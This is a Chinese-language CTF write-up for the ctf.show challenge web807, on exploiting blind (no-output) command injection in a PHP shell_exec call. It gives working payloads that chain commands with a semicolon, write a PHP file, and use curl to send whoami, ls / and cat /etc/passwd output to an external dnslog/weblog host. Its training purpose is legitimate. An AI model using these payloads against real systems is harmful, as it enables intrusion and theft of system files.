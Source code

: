 题目存在RCE命令执行，使用了`exec`、`shell_exec`，反引号等执行命令，但是页面不会显示执行结果，这种情况称为无回显RCE。

解决方法：

- 尝试写文件，如木马webshell
- 尝试curl命令发起http请求，dnslog外带出结果
- 反弹shell
- 如果有wget命令，可以在远程服务器上写一个webshell，wget下载到靶机上
- 不出网且不能写文件时，可以考虑时间盲注

推荐写文件、dnslog、weblog外带，简单便捷零成本，即开即用。

举例，以题目[web807](https://ctf.show/challenges#web807-1847)举例：

题目这里shell_exec会对于用户传入的url进行访问，没有任何过滤，可以在shell_exec函数里使用分号执行多个命令

![1](./images/rce_no_res/1.png)

## 写文件

使用echo命令搭配重定向符，把输出内容写入文件中

```bash
echo "<?php phpinfo(); ?>" > 1.php
```

payload：`url=https://127.0.0.1/;echo "<?php phpinfo(); ?>" > 1.php`

访问1.php，发现没有这个文件，这道题可能没有写的权限。

## 使用curl发起http请求(dnslog/weblog)

推荐一个[dnslog](https://eyes.sh/dns/)平台，免费好用无需注册

使用反引号获取命令执行结果作为子域名，带出命令执行结果

```bash
curl "https://`whoami`.example.com"
```

在[dnslog](https://eyes.sh/dns/)获取一个平台分配的子域名，替换上面的域名

![2](./images/rce_no_res/2.png)

dnslog payload：url=https://`whoami`.enwvbm6o.eyes.sh

提交payload可以看到子域名命令包含命令执行结果`www-data`

![3](./images/rce_no_res/3.png)


dnslog有什么缺陷？

尝试把`whoami`替换成其他命令，如`ls /`,`cat /etc/passwd`

可以发现，dnslog子域名在遇到空格时，就断了，拿到的结果太短

![4](./images/rce_no_res/4.png)

引出weblog的使用，weblog会记录完整的get请求，post请求，但是get请求下，命令执行结果函数有空格或换行时，还是会截断，因此更推荐使用post请求，拿到完整的命令执行结果。

把命令执行结果作为get请求的参数带出，get请求的payload：url=https://127.0.0.1;curl http://enwvbm6o.eyes.sh/?1=`ls /`

注意这个weblog平台要用http。发现get请求还是会被空格、换行截断

![5](./images/rce_no_res/5.png)

尝试使用curl发起post请求
```bash
curl -X POST -d "1=`ls /`" http://enwvbm6o.eyes.sh/
```

payload：url=https://127.0.0.1;curl -X POST -d "1=`ls /`" http://enwvbm6o.eyes.sh/


可以看到拿到了完整的命令执行结果

![6](./images/rce_no_res/6.png)

payload：url=https://127.0.0.1;curl -X POST -d "1=`cat /etc/passwd`" http://enwvbm6o.eyes.sh/

![7](./images/rce_no_res/7.png)